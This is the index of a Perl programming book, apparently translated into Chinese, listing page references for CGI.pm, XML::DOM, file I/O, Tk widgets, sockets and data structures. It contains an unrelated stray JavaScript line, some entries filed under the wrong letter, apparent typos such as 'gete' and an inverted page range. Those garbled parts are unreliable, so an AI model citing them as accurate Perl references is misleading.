- 方括号，21, 78, 79, 95, 99, 101, 122, 148
- 分支。*参见*条件语句。
- 聊天应用程序的浏览器，984, 986
  - 图像格式，954–955
  - 重定向，1025–1026
- BSD-DB 数据库，692, 723
- **B<文本>**命令，368
- 桶，126
- 缓冲
  - **自动刷新**函数，557
  - 命令行缓冲，522
  - 禁用缓冲变量，419, 422, 447
  - 设置输出通道缓冲，557–558
- 项目符号列表，CGI编程，917–918
- **Bundle::XML** 模块，1087
- **按钮**方法，635, 637
- 按钮部件，642–644
- 按钮
  - 添加，635, 640–642
  - **CGI.pm** 模块，931–932
  - WML按钮，1173–1175
- **[]**（字符类），238, 360
- **%c**，350
- **$^C** 变量，419, 436
- **-C** 文件测试运算符，158
- **-c** 文件测试运算符，158
- **-e** 文件测试运算符，158
- **c**修饰符，253, 260
- C风格逻辑**或**运算符，168–170
- C风格结构体，创建，606–607
- **-C** 开关，21
- **-e** 开关，21, 27
- **缓存输出**函数，621–622
- **调用者**函数，309–310
- **callme**子例程，514
- **can**方法，822
- 卡片（WML），1169–1171
- **Carp** 模块，595
- **carp**语句，513
- **Carp**语句，513
- **carpout**函数，943
- 回车符，去除或添加，570–572
- 级联菜单，**Tk**，676–681
- 大小写转换
  - 使用**lc**和**uc**，342–343, 479–480, 500–501
  - 使用**lcfirst**和**ucfirst**，343–344, 480–481, 501–502
- 大小写敏感性
  - 匹配，266
  - 标量变量名，52
- **<代码>**命令，368
- **<CENTER>**标签，916
- **居中**方法，CGI.pm模块，916–917
- **CGI::Carp**，943
- **CGI::Imagemap**模块，937
- **CGI::LogCarp**模块，943
- **$CGI::POST_MAX**变量，986
- **CGI::Push**，994
- **CGI::XMLForm**模块，1087, 1163
  - 查询XML，1187–1189
  - **readXML**方法，1165, 1187–1189
  - **toXML**方法，1163–1165, 1186–1187
  - 写入XML，1186–1187
- CGI环境变量，1016, 1019–1021
- CGI编程，891–943。*另见*CGI脚本；CGI.pm模块。
### CGI脚本
- CGI环境变量，1016, 1019–1021
- 聊天应用程序，982, 984–983
- Cookie，982, 999–1004, 1018
- 游戏，982–983, 1005–1014
- HTML控件，897–912, 921, 933
- HTML文档，914–915, 932
- HTML表单，900, 902, 919–920, 931–932
- HTML快捷方式，896–897, 937
- 图像相关，915, 956–958
- 浏览器的MIME类型，954–955
- 非面向对象，899, 938–939
- 安全，947–950
- 服务器端包含，982, 996–998
- Unix，953–954
- 上传文件，931–932, 1017, 1034–1038
- XML，1162–1165, 1176–1189
  - 从Web页面调用，932–934
  - 检查用户是否已登录，1022–1024
  - 数据库，1017, 1026–1033
  - 调试，940–943
  - 电子邮件，974–981
  - 基于函数，938–939
  - 在Unix中授予更高权限，953–954
  - 留言簿，966–974
  - Internet来源，946
  - 权限，892, 940
  - 从HTML控件读取，904–912
  - 返回图像，956–958
  - 运行，891–892, 940–941
  - 以**suid**运行，954
  - 从代码发送HTML表单，1224–1231
  - 服务器推送，982, 994–996
  - 购物车应用程序，1017–1018, 1048–1070
  - 启动HTML文档，914–915
  - 污染机制，951
  - 污染数据，951–953
  - 解除数据污染，953
  - 使用其上载文件，931–932, 1017, 1034–1038
  - Web页面访问计数器，958–966
  - 网站搜索，1017, 1039–1047
### CGI.pm模块
- **a**方法，918
- 项目符号列表，917–918
- 按钮，931–932
- **居中**方法，916–917
- **复选框组**方法，923
- **cookie**方法，1001–1002
- 创建HTML控件，899–904
- 创建HTML头部，915–916
- 数据“粘性”，987–988
- 显示图像，915
- **end_form**方法，903–904, 931
- **end_html**方法，932, 968
- **filefield**方法，1035–1036
- 框架，937–938
- 面向函数的编程，899, 938–939
- **header**方法，914, 957, 1025–1026, 1182
- **隐藏域**方法，929
- 水平线，918–919
- **hr**方法，918–919
- HTML，894–895
- HTML控件，897–912, 933
- HTML表单，919–920, 931–932
- HTML快捷方式，896–897, 937
- HTTP重定向头部，1025–1026
- 超链接，918
- **图像按钮**方法，935–937
- **img**方法，915
- 在重新显示的窗体中初始化数据，1016, 1019
- **li**方法，917
- 命名参数，894
- **param**方法，894, 904, 921, 922, 924–925, 935, 938, 1036, 1182
- **密码域**方法，927
- **弹出菜单**方法，928–929
- **pre**方法，1036
- 单选按钮，925–927
- **单选组**方法，925–926
- **原始cookie**方法，1002
- 从HTML控件读取，904–912
- **重定向**方法，1025
- 重置按钮，931
- **重置**方法，903
- **滚动列表**方法，924–925
- 服务器推送，982, 994–996
- **start_form**方法，902–903, 919–920, 931, 935
- **start_html**方法，914
- 启动，894
- **start_multipart_form**方法，1034–1035
- 提交按钮，931–932
- **提交**方法，903, 931
- 文本区域，922–923
- 文本字段，920–921
- **textarea**方法，894, 899, 922
- **textfield**方法，920–921
- **ul**方法，917
- 从HTML表单上传数据，931–932
## C
### 通用C条目
- **Char**处理函数，1153
- 字符类，240–241
- **字符**事件，649
- 字符，237–240
  - 来自字符代码，467–468
  - 获取，561–562
  - 匹配任意字符，239–240
- **split**函数，492–493
### 聊天应用程序
- 浏览器，984, 986
- CGI脚本，982, 988–993
- 数据“粘性”，987–988
- 拒绝服务攻击，986
- 多用户安全，985
- 刷新率，986–987
- **chdir**函数，156, 588–589
- **Tk**复选按钮菜单，676–681
- **Tk**复选按钮部件，**Tk**，650, 651–654
- 复选框，**CGI.pm**模块，923–924
- **checkbox_group**方法，**CGI.pm**模块，923
- **checkbutton**方法，677
- 子节点/子节点，1090
- **chmod**命令，892
- **chmod**函数，583–584
- **chomp**函数，39–40, 514–516
- **chop**函数，39, 514–516
- **chr**函数，84–85, 354–355, 467–468
- 循环引用，避免，409–410
- **Class::Struct**模块，595, 606–607, 721
- 类数据，774, 796
- 类继承，798–800
- 类方法，774, 775, 783–784
- 类变量，780, 792, 795–796, 823
- 类，772, 773
  - 创建类，777
  - 从中创建对象，781–783
  - 委托类关系，833–836
  - 将数组绑定到类，818–819
  - 将数据类型绑定到类，808–809
  - 将哈希绑定到类，820–821
  - 将标量绑定到类，816–817
- **UNIVERSAL**类，821–823
- 客户区，635
- 客户端拉取，986
- 客户端/服务器编程。*参见*套接字编程。
- 客户端，846–848
  - 使用**IO::Socket**创建，865–868
  - 读取，870, 880–881
  - 写入，870–871, 881–882
- **close**函数，551–552
- **closedir**函数，587
- 闭包，823–826
- **clock**语句，513
- **cmd**方法，**Net::Telnet**模块，862
- **cmp**运算符，160, 353, 490
- **CODE**：标签，765, 768
- 代码段，626
- 代码执行时间，606
- 代码引用（代码引用），383
- 逗号，同义词，123
- 逗号运算符，173–174
- 命令行，从命令行执行代码，19–21, 25–26
- 命令行参数，**@ARGV**，103, 120–121, 180, 459–460, 530
- 命令行开关，8, 622–625
  - **GetOpt**模块，622–625
  - 开关名称中的连字符，622
  - 开关列表，21–24
  - 多字符开关，623–625
  - 单字符开关，622–623
- **Command**方法，674
- Perl中的注释，34–35
  - 在WML中，1170
  - 在XML中，1093
- 通用网关接口编程。*参见*CGI编程。
- **compare**函数，618–619
- 比较运算符，118, 146, 159–160
- 比较子例程，492
- 正则表达式编译，272–274
- 编译开关变量，419, 436
- 复数，468–469
- 复合语句，13
- 综合Perl归档网络。*参见*CPAN。
- 连接运算符，155
- 条件运算符，143, 171–172
- 条件语句，184–185, 186, 188
- **confess**语句，513
- **Config**模块，595
- **connect**函数，877
- **constant**模块，607–608
- 常量
  - 使用模块创建，607–608
  - 声明，57–58
- 构造函数，773, 774, 783
  - 拷贝构造函数，840
  - 创建构造函数以初始化对象，777–781
  - 函数，797
  - 向构造函数传递数据，779–781, 782
- 包含关系，832
- **continue**块
  - 在**until**循环中，208–209
  - 在**while**循环中，205–207, 217
- **Control+character**事件，649
- 熟模式，536
- **cookie**方法，**CGI.pm**模块，1001–1002
- Cookie，982, 999–1004, 1018
  - CGI脚本，1002–1004
  - 读取，1002
  - 购物车应用程序，1048–1061
  - 使用，999
  - 写入，1000–1002
- 拷贝构造函数，840
- **copy**函数，586
- **CORE::exit**，749
- **CORE**伪包，318, 749
- **cos**函数，469–470
- 余弦，对应的函数，469–470
- **Count**方法，**Mail::POP3Client**模块，858
- CPAN，8, 9, 365, 762–763, 1086
- **CPAN::FirstTime**模块，595
- **CPAN::Nox**模块，595
- DBI模块，691
- 模块，595, 600
- "Crack"程序，950
- **createDisplay**子例程，1105–1107
- **createElement**方法，**XML::DOM**模块，1133
- **createImage**方法，665
- **createTextNode**方法，**XML::DOM**模块，1133–1134
- 信用卡号码，校验，608
- **CreditCard**模块，608
- **croak**语句，513, 1142
- **crypt**函数，164, 357–359
- **ctime**元素，111
- 大括号，13, 28, 96, 122, 148, 187, 188
- 当前调试标志变量，419, 436
- 当前就地编辑值，419, 438
- 当前输入行号变量，419, 422, 429–430
- 当前页长度，格式当前页长度变量，419, 422, 450–451
- 当前报表格式变量，419, 422, 448
- 当前语法检查变量，438
- 当前页顶格式变量，419, 422, 435
- 当前警告开关值变量，419, 443–444
- 当前工作目录，获取其路径，608
- **Curses**模块，516–519
- 光标，定位，534
- **=cut**指令，367
- **cwd**方法，849, 850
- **Cwd**模块，595, 608
## D
### 数据
- 数据处理函数，463–505
- **__DATA__**标记，572, 756
- 显示结构化数据，609–611
- 隐藏数据字段，CGI编程，929–930
- 在重新显示的窗体中初始化数据，1016, 1019
- **d**修饰符，253
- **\D**，238
- **\d**，238
- **\D**断言，258, 259
- **\d**断言，258, 259
- **$^I**变量，419, 438
- **-dname**开关，21
- **$^D**变量，419, 436
- **-d**文件测试运算符，158, 620
- **-d**开关，21
- **%D**，350, 351

- 打印列表数据，526–529
- 读取数据行，560–561
- 将数据存入实例变量，789–790
- 被污染的数据，951–953
- 用匿名哈希模拟用户自定义数据类型，392–393
- **Data::Dumper** 模块，609–611，718–720
- **Data::DumpXML** 模块，1087
- 数据键，715
- 数据成员，774、775，830–831
- 数据处理，463–505
  + abs 函数，171，465
  + chr 函数，84–85，354–355，467–468
  + each 函数，126、130、132、201，470
  + eval 函数，471
  + exp 函数，473–474
  + hex 函数，475
  + index 函数，344，475–476
  + int 函数，63、153，476–477
  + join 函数，81、115、155、463，478
  + lc 函数，84，342–343，478–479
  + lcfirst 函数，343–344，480–481
  + length 函数，346–347，481
  + Math::BigFloat 模块，467、596
  + Math::BigInt 模块，467、596
  + Math::Complex 模块，468–469
  + Math::Trig 模块，469、470，498–500
  + pack 函数，60，347–350、355、468、481–483、502、559–560、582、583
  + POSIX::acos 函数，470
  + POSIX 函数，483–485
  + reverse 函数，117、133、357，487–488
  + rindex 函数，344，488
  + sort 函数，118、134–135、147–148、353，490–492
  + split 函数，83–84、356、364，492–493
  + sprintf 函数，61、62、63、68、162、325、350–352、425，493–495
  + sqrt 函数，156、465，495–496
  + unpack 函数，60，347–350、483、502–503、582、583
  + values 函数，131、132、135、201，504
  + vec 函数，463、502，504–505
- 数据“粘性”，987–988
- 数据结构，693–694
  + 数组。*参见* 数组条目。
  + 数组的数组，694–701
  + 哈希的数组，690，706–711
  + 复制，717–718
  + 数组的哈希，712–714
  + 哈希的哈希，701–706
  + 链表，714–716
  + 打印，718–720
  + 环形缓冲区，714–716
  + 磁盘存储，717
  + 类型，720–722
  + use strict 'vars' 编译指示，302、594、629、690
- __DATA__ 标记，572、756
- 数据类型，绑定到类，808–809
- 数据库元素，1026
- 数据库哈希，1026–1028
- 数据库管理文件。*参见* DBM 文件。
- 数据库，691–692
  + CGI 脚本，1017、1026–1033
  + 读取文件，724–725
  + 排序，725–726
  + SQL，727
  + 作为数据库对待的文本文件，726–727
  + 写入 DBM 文件，723–724
  + XML，1182–1186
- **Date::Calc** 模块，611–612
- 日期，加减运算，611–612
- dbclose 函数，692
- **DBD** 模块，691、727
- **DB_File** 模块，595、692、723、726–727
- DBI connect 方法，727
- DBI 模块，727
- DBI::XML::RDB 模块，1087
- DBM 文件，691–692、723
- dbnclose 函数，691、723、724
- dbopen 函数，691、723、724
- dclone 函数，718
- 调试，CGI 脚本，940–943
- 调试标志，419、436
- 调试支持变量，419、440
- 十进制数
  + 二进制数转换，59–60、483、502
  + 十六进制数转换，61–62、257、475、477
  + 八进制数转换，60–61
- 小数位数，332
- 卡片元素（WML），1170
- 卡片组（WML），1169
- 声明，13
- 递减运算符（--），24、107、149
- 深度克隆函数，718
- 默认值，62
- 默认变量（$_），36–39、200、204、233、417、419、445–446
- defined 函数，62、128、156、290、295–296
- deg2grad 函数，499
- deg2rad 函数，499
- 角度转换为弧度，499
- 委托类关系，833–836
- delete 函数，119、129
- delete 运算符，6
- **Delta_Days**，612
- **Delta_DHMS**，612
- 拒绝服务攻击，986
- 解引用地址运算符，182
- 解引用。*参见* 引用条目。
- 派生类，773、775、798
- **DESTROY** 方法，808、817、819、833、635–636
- 析构函数，创建，797–798
- dev 元素，111
- **Devel::Peek** 模块，67
- **Devel::SelfStubber** 模块，595
- diagnostics 模块，612–614
- diagnostics 编译指示，598
- 对话框（Tk），681–683
- **DialogBox** 方法，681
- die 调用，1159
- die 函数，169、177、457、519–520、542
- die 语句，226–227
- dir 命令，363
### **E**
- `$^E` 变量，419、436–437
- `each` 函数，126、130、132、201，470
- `ee` 修饰符，251
- `E<escape>` 命令，368
- 有效组 ID 变量，419、427
- 元素节点，1090、1107–1109、1112–1113
- `else` 子句，190、192
- `elsif` 子句，190
- `elsif` 语句，189、192
- `<EM>` 标签，921
- `Email`
  - CGI 脚本，974–981
  - 接收，857–860
  - 发送，860–861
  - `sendmail` 应用程序，860–861、974–979
- 紧急内存缓冲区变量，419、439
- `%employees`，137
- 加密，`Xor` 加密，166
- `=end label` 指令，367
- `END` 子程序，730、736–737
- `__END__` 标记，572
- `end_form` 方法，**CGI.pm** 模块，903–904、931
- `end_handler` 函数，1153
- `end_html` 方法，**CGI.pm** 模块，932、968
- `endwin` 函数，516
- `English` 模块，595、614–615
- `English` 编译指示，419–420
- `Enter` 事件，649
- `Entry` 方法，671
- `Entry` 控件，671–672
- `%ENV` 哈希，1020
- `Env` 模块，595、616–617
- `%ENV` 变量，455–456
- 环境变量，455–456、616–617
- `eof` 函数，568–569
- `eof` 方法，`IO` 模块，568
- 纪元，441、497
- 纪元秒数，442
- `eq` 运算符，160、353
- 相等运算符，146、160–161、172–173、840
- 500 错误：内部服务器错误，940
- `Errors`
  - CGI 脚本，940–943
  - 当前 Perl 错误，418、423–424
  - `die` 函数，169、177、457、519–520、542
  - `eval BLOCK` 函数，224、225
  - `eval` 语句，471
  - 上次 `eval` 产生的错误，419、432
  - 错误日志记录，523
  - 操作系统特定信息，419、436–437
  - 打印完整诊断信息，612–614
  - 报告警告和错误，513
  - `STDERR` 文件句柄，31
  - `XML::DOM` 模块，1141–1144
- 转义字符，33–34、66–67、179、360–361
- `eval BLOCK` 函数，224、225
- `eval` 命令，16
- `eval EXPR` 函数，224
- `eval` 函数，28、156、224–225、299、471、471–472
- `eval` 关键字，187
- `eval` 语句，419、432、440
- 排他锁，985
- 异或，164–166
- `exec cgi:`，997
- `exec cmd=`，997
- 可执行文件名变量，419、444
- `execute` 方法，727
- `exists` 函数，119、128、129、156、290、472–473
- `exists` 运算符，6
- `exit` 函数，748
- `exit` 语句，222、225–226
- `exp` 函数，473–474
- `Expat`，1086
- `Expect` 模块，520–521
- 显式循环索引，198
- 幂运算符，145、150
- 指数，473–474
- `@EXPORT` 数组，741
- `Exporter` 模块，595、740–742、744、745、751
- `@EXPORT_FAIL` 数组，744
- 可扩展性，作为程序设计问题，42、43
- 可扩展样式表语言转换。*参见* `XSLT`。
- 扩展，618、763–770
- `ExtUtils::Command` 模块，618
- `ExtUtils::Embed` 模块，595、618
- `ExtUtils::Install` 模块，595、618
- `ExtUtils::Installed` 模块，618
- `ExtUtils::Liblist` 模块，595、618
- `ExtUtils::MakeMaker` 模块，595、618
- `ExtUtils::Manifest` 模块，595、618
- `ExtUtils::Miniperl` 模块，618
- `ExtUtils::Mkbootstrap` 模块，595、618
- `ExtUtils::Mksymlists` 模块，595、618
- `ExtUtils::MM_OS2` 模块，595、618
- `ExtUtils::MM_Unix` 模块，595、618
- `ExtUtils::MM_VMS` 模块，595、618
- `ExtUtils::MM_Win32` 模块，618
- `ExtUtils::Packlist` 模块，618
- `ExtUtils::testlib` 模块，595、618
- `ExtUtils` 模块，595、618
### **F**
- `\f`，33、66、238、360
- `%F`，351
- `%f`，351
- `-f` 文件测试运算符，158
- `$^F` 变量，419、437
- `Fatal` 模块，595
- `Fcntl` 模块，595、691、723
- `FETCH` 方法，808、816、818、833、834–835
- `FETCHSIZE` 方法，818–819
- `F<file>` 命令，368
- `File::Basename` 模块，595
- `File::CheckTree` 模块，595
- `File::Compare` 模块，596、618–619
- `File::Copy` 模块，586、596
- `File::Find` 模块，596、619–621、1042
- `File::Path` 模块，596
- `File::stat` 模块，596
- `File` 句柄，30–31、547、574
  - 复制与重定向，576–577
  - 将文件句柄传递给子程序，574–576
  - 设置默认输出文件句柄，567
  - 预定义变量的设置，420–422
- `File` 处理，549–590
  - `autoflush` 函数，557–558
  - `binmode` 函数，6、555–557、571
  - `chdir` 函数，156、588–589
  - `chmod` 函数，583–584
  - `close` 函数，551–552
  - `closedir` 函数，587
  - 文件比较，618–619
  - `copy` 函数，586
  - 复制与重定向文件句柄，576–577
  - 统计文件行数，573
  - 就地编辑文件，578
  - `eof` 函数，568–569
  - `File::Compare` 模块，618–619
  - `FileCache` 模块，596、621–622
  - 随机访问定长记录，581–583
  - `flock` 函数，569–570、985
  - `getc` 函数，509、521–523、561–562
  - `glob` 函数，201、584–585
  - 文件匹配，584–585
  - `mkdir` 函数，589
  - `open` 函数，6、549–551
  - `opendir` 函数，586–587
  - 将文件句柄传递给子程序，574–576
  - POSIX 文件函数，566–567
  - `print` 函数，31–32、49、114、433、446、526–527、552–554、580、881、894
  - `read` 函数，559–560、582
  - `readdir` 函数，587
  - `readline` 函数，537、538、560–561
  - `rename` 函数，585
  - `rewinddir` 函数，588
  - `rmdir` 函数，156、589–590
  - 搜索目录中的文件，619–621
  - `seek` 函数，562–563、564
  - `seekdir` 函数，588
  - `select` 函数，448、567
  - `stat` 函数，79、111、177、564–566
  - 将文件嵌入程序代码，572–574
  - 去除或添加回车符，570–573
  - `sysread` 函数，56、560
  - `tell` 函数，564
  - `telldir` 函数，588
  - 临时文件名，577
  - `unlink` 函数，585–586
  - `write` 函数，323、324、328–330、542–543、554–555
  - 将数组写入和读取到文本文件，579
  - 将哈希写入和读取到文本文件，580–581
  - `File` I/O 运算符，179–181
  - `File` 权限（Unix），583
  - `File` 测试运算符，145、157–158
  - 文件传输协议。*参见* `FTP`。
  - `FileCache` 模块，596、621–622
  - `filefield` 方法，**CGI.pm** 模块，1035–1036

## <文件句柄>
<文件句柄>, 180, 181, 384
### **$filehandle->getline 方法**, 559
### **$filehandle->getlines 方法**, 559
### **FileHandle** 模块, 596
### **\*FILEHANDLE{IO}** 语法, 575
### 文件。*另见* 文件句柄；文件处理。
- 比较，618–619
- 复制，586
- 统计文件行数，573
- 删除，585–586
- 就地编辑文件，578
- **File::Compare** 模块，618–619
- **FileCache** 模块，596, 621–622
- 锁定，569–570, 985
- 维护多个打开的输出文件，621–622
- 最大文件描述符变量，419, 437
- 当前文件名称变量，452
- 打印到文件，338–340
- 重命名，585
- 在目录中搜索，619–621
- 设置文件内当前位置，562
- 存储在程序代码中，572–574
- 临时文件名，577
- 通过CGI脚本上传，931–932, 1034–1038
### **-fill** 选项, 663
### **find** 函数，619–621, 1042
### **FindBin** 模块, 596
### **finder** 子例程，1043
### 定长字符串，用于随机访问，581–583
### 扁平化，77–78, 401
### 浮点值，162
### **flock** 函数，569–570, 985
### **for(;;)** 循环，181, 204
### **for(;<FILEHANDLE>;) 循环**，203–204
### **=for label** 指令，367
### **for** 循环，13, 30, 112–114, 115, 186, 194–198
### **for** 语句，262
### **foreach** 循环，112, 115, 131, 198, 199–202, 209, 211, 294–295, 413, 446, 1023
### **foreach** 修饰符，212, 214
### **fork** 函数，871–873
### </FORM> 标签，931
### <FORM> 标签，902
### 格式说明符，347–348, 482
### 格式字符串换行字符变量，419, 422, 430
### 格式变量，337–338
### 格式。*另见* 字符串处理。
- 文本居中，331–332
- 创建格式化文本，328–330
- 当前格式输出页，418, 422, 426
- 当前页顶格式变量，419, 422, 435
- 声明，323
- **format NAME 行**，329
- 格式变量，337–338
- 文本左对齐，330–331
- 页面剩余行数，418, 422, 423
- 底层格式化，341–342
- **formline** 函数，341–342
- 多行输出，333–336
- 多页报表，340–341
- 当前报表格式名称变量，419, 422, 448
- 输出格式换页符变量，419, 422, 438
- 格式行，329, 330, 335
- 数字打印，332–333
- 打印到文件，338–340
- 文本右对齐，331
- 字符串，350–352, 493–494
- 格式顶部输出，336–337
- WML，1171–1172
### **format_write** 方法，555
### 表单
- HTML表单，900, 902, 919–920, 931–932, 1224–1231
- 使用Perl的WML接口，1208
### 正斜杠，547
### **-Fpattern** 开关，22
### **Frame** 方法，668
### **frame** 快捷方式，937
### **frame** 部件，637
### 框架，使用其排列部件，668–670
### **frameset** 快捷方式，937
### 文件传输协议（FTP），845, 849–852
### 函数调用，在正则表达式中，267
### 面向函数编程，**CGI.pm** 模块，899, 938–939
### 函数模板，413–414
### 函数，48。*另见* 各个函数名下条目。
- 从函数模板创建，413–414
- 数据处理函数，463–505
- 文件处理，549–590
- I/O操作，509–543
- 作为修饰符，156–157
- 返回值，280–281, 296–298
- 与操作符的区别，144
- incrementcount 子例程，307
## G
### %G，351
### %g，351
### g 修饰符，251, 260, 261
### \G 断言，245, 263–264
### -g 文件测试操作符，158
### -g 修饰符，233, 234, 243, 248
### 游戏
- CGI脚本，982–983, 1005–1014
- 自定义，1006–1007
- 在脚本调用的间隙将数据存储到Web页面中，1005–1006
### **GATEWAY_INTERFACE** 变量，1020
### gc 修饰符，251
### **GDBM** 数据库，692
### **GDBM_File** 模块，596, 692
### ge 操作符，159, 353
### **Get** 方法，656, 671
### **get** 方法
- 下载Web页面，852
- 通过FTP，849
- **LWP::Simple** 模块，1215, 1224, 1225–1227
- 使用其限制访问，791
### **GET** 请求，853, 1221
### getattr 方法，**POSIX::Termios** 模块，525
### getAttributeNode 方法，**XML::DOM** 模块，1130
### getAttributes 方法，**XML::DOM** 模块，1109
### getBody 方法，**SOAP::Parser** 模块，1192
### **gete** 函数，509, 521–523, 561–562
### getcc 方法，**POSIX::Termios** 模块，525
### getflag 方法，**POSIX::Termios** 模块，525
### getChildNodes 方法，**XML::DOM** 模块，1108, 1138
### **GetControlChars** 函数，537, 538–540
### getData 方法，**XML::DOM** 模块，1111, 1112
### getElementsByName 方法，**XML::DOM** 模块，1127–1129, 1137
### getFirstChild 方法，**XML::DOM** 模块，1125
### getHeaders 方法，**SOAP::Parser** 函数，1191, 1192
### getiflag 方法，**POSIX::Termios** 模块，525
### getispeed 方法，**POSIX::Termios** 模块，525
### getlflag 方法，**POSIX::Termios** 模块，525
### getmessage 子例程，71
### getNextSibling 方法，**XML::DOM** 模块，1125–1126
### getNodeName 方法，**XML::DOM** 模块，1107–1108, 1109
### getNodeValue 方法，**XML::DOM** 模块，1109, 1111, 1127, 1130
### getoflag 方法，**POSIX::Termios** 模块，525
### **Getopt::Long** 模块，623
### **Getopt::Std** 模块，596, 622–623
### **getopt** 函数，622–623
### **Getopt** 模块，120–121, 622–625
### **GetOptions** 函数，623–625
### getospeed 方法，**POSIX::Termios** 模块，525
### **getprotobyname** 函数，876–877
### **Getopt::Long** 模块，596
### **GetSpeeds** 函数，537, 539
### getTarget 方法，**XML::DOM** 模块，1111, 1112
### **GetTerminalSize** 函数，537, 539
### **getvalues** 函数，298
### gid
- 有效组ID变量，419, 427
- 实际组ID变量，418, 427
### gid 元素，111, 157, 158
### **glob** 函数，201, 584–585
### 全局包作用域，278
### 全局作用域，730, 739–740
### 全局变量，预声明，632
### 通配符匹配，181
### goto &NAME 语句，223
### goto EXPR 语句，223
### goto LABEL 语句，223
### goto 语句，223
### GoXML::XQI 模块，1087
### grad2deg 函数，49
### grad2rad 函数，499
### grep 函数，85–87, 131, 133, 210–212, 262, 474
### 组 ID。另见 gid。
### group 方法，News::NNTPClient 模块，856
### 分组操作符，262
### gt 操作符，159, 353
### 留言簿，CGI脚本，966–974
### 图形用户界面，638
- 排序，134–135
- 存储硬引用，631–632
- 绑定到类，820–821
- 使用，125–126
- 在列表赋值中使用，136–137
- 向文本文件写入和读取，580–581
## H
### **硬引用**，375–377, 381–387, 631–632
### **哈希**，222
### **哈希元素**，128, 129
### **哈希键**，478–479
### **哈希引用**，可用作数组引用，410–412
### **哈希值**，按插入顺序恢复，631
### **哈希**，48, 49, 96–97
- 添加元素，127
- 匿名哈希，379–380, 389–391, 392–393
- 数组的哈希，712–714
- 哈希数组，690, 706–711
- 检查键是否存在，472–473
- 创建，96, 121–124, 127
- 数据库哈希，1026–1028
- 删除哈希元素，129
- 确定哈希元素，128
- each 函数，470
- %ENV 哈希，1020
- %ENV 变量，455–456
- exists 函数，472–473
- 哈希的哈希，701–706, 719
- %INC 变量，456–457
- 与列表赋值配合使用，96
- 遍历，129–132, 470
- 主符号表。另见主符号表。
- 合并，135–136
- 面向对象编程，778
- 传递给子例程，293
- 预分配内存，137
- 前缀解引用符，96
- 打印，132–133
- 引用，383
- 返回值，297
- 反转键和值，133–134
- 在标量上下文中，125
- %i，351
### HotKey.pm 模块，522–523
### <HR> 标签，918–919
### hr 方法，CGI.pm 模块，918–919
### HTML控件
- CGI.pm模块，897–912, 933
- 创建，899–904
- 数据“粘性”，987–988
- 读取数据，904–912, 921
### HTML文档，914–915, 932
### HTML元素，916–917
### HTML表单，900, 902, 919–920, 931–932, 1224–1231
### HTML头部，CGI脚本，915–916
### HTML模块，853
### HTML快捷方式，CGI.pm模块，896–897, 937
### HTML文本字段，920–921
### HTTP::Cookies 模块，1213
### HTTP::Daemon 模块，1213, 1214, 1231
### HTTP::Date 模块，1213
### HTTP::Headers 模块，1213
### HTTP::Message 模块，1213
### HTTP::Negotiate 模块，1213
### HTTP::Request::Common 模块，1227
### HTTP::Request::Form 模块，1213
### HTTP::Request 模块，1213, 1219–1221
### HTTP::Response 模块，1213
### HTTP::Status 模块，1213
### HTTP_ACCEPT 环境变量，954
### HTTP_ACCEPT_MIME 变量，1020
### HTTP_ACCEPT_CHARSET 变量，1020
### HTTP_ACCEPT_LANGUAGE 变量，1020
### HTTP_CONNECTION 变量，1020
### HTTPD::Access 模块，1213
### HTTPD::Authen 模块，1213
### HTTPD::Config 模块，1213
### HTTPD::GroupAdmin 模块，1213
### HTTPD::UserAdmin 模块，1213
### HTTP_HOST 变量，1020
### HTTP_USER_AGENT 变量，1016, 1020, 1021
### 超链接
- CGI.pm模块，918
- 使用WML创建，1193–1194
### -h 开关，22
### $^H 变量，438
### h2xs 工具，733, 750, 757–760, 763
### handle_links 函数，1217–1218
### 处理函数，SAX解析器，1145–1146
## I
### I<> 命令，368
### i 修饰符，251, 266
### -i 开关，578
### $^I 变量，419, 438
### I18N::Collate 模块，596
### -idirectory 开关，22
### -i[extension] 开关，22
### if 块，277
### if 修饰符，191, 212, 213
### if 语句，184–185, 189–191
### 基于图片的Web计数器，961–966
### 图像映射，CGI编程，935–937
### image_button 方法，CGI.pm 模块，935–937
### 图像
- 使用CGI脚本显示，915, 956–958
- 使用Tk显示，665–666
- 浏览器的MIME类型，954–955
- 从CGI脚本返回，956–958
- WML，1204–1205
###  标签，915, 956, 957, 971
### img 方法，CGI.pm 模块，915
### import 方法，741, 745
### @INC，17, 460
### @INC 数组，460
### %INC 变量，456–457
### increment 方法，840
### 递增操作符（++），65, 145, 149, 839–842
### incrementcount 子例程，307

``` 
if (condVar > someVal) {console.log("xxx")}
```


## I - 
- **index** 函数，344、475–476、484
- 索引
  - 数组索引，95、99、102
  - 列表索引，78
  - 循环索引，186、194–196
  - 在Tk中指定，646
- **inet_aton** 函数，877
- 中缀解引用器，788
- 继承，773、775–776、798–805
  - 构造函数，800
  - 实例数据，802–804
  - 多重继承，804–805
- **initscr** 函数，516
- 内联函数，316
- **ino** 元素，111
- 原地编辑扩展，当前值，419、438
- 输入，清理已输入的输入内容，39–40；当前输入行号变量，419、422、429–430；输入记录分隔符，419、422、430；逐字节读取输入，559–560；使用尖角运算符读取输入，530；文本输入与输出，30–32、35–36
- 插值，69–73、114、124
- **IO::File** 模块，575、596
- **IO::Handle** 模块，596
- **IO::Pipe** 模块，596
- **IO::Seekable** 模块，563、564、596
- **IO::Select** 模块，567、596、885–886
- **IO::Socket::INET** 模块，865–866、1231
- **IO::Socket** 模块，596、848、1214
  - **accept** 方法，869
  - 自动HTML表单提交，1228–1231
  - 双向客户端/服务器应用程序，871–876
  - 创建TCP客户端，865–868
  - 创建TCP服务器，868–871
  - 使用其获取网页，1221–1223
  - 多线程，871–876
  - **new** 方法，866、886–888
  - 使用，1234
- **IO** 模块，552、554、555、559、562、563、564、566、567、568、577、596
- I/O引用，382、387
- I/O函数，509–543
  - **addch** 函数，517
  - **alarm** 函数，511–512
  - **chomp** 函数，39–40、514–516
  - **chop** 函数，39、514–516
  - **Curses** 模块，516–519
  - **die** 函数，169、177、457、519–520、542
  - **Expect** 模块，520–521
  - **getc** 函数，509、521–523
  - **HotKey.pm** 模块，522–523
  - 错误日志记录，523
  - **POSIX::Termios** 模块，523–526、533
  - **print** 函数，31–32、49、114、433、446、526–527、580
  - **printf** 函数，527–529
  - 使用尖角运算符读取输入，530
  - 报告警告和错误，513
  - **Term::ANSIColor** 模块，529
  - **Term::Cap** 模块，533–534、534–535
  - **Term::ReadKey** 模块，535–540
  - **warn** 函数，541–542
  - **write** 函数，323、324、328–330、542–543、554–555
- I/O运算符，530
- **iorefs**，382、387、394
- **IPC::Open2** 模块，596
- **IPC::Open3** 模块，596
- *is-a* 关系，832
- **@ISA** 数组，692、741、799、821、832
- **isa** 方法，821
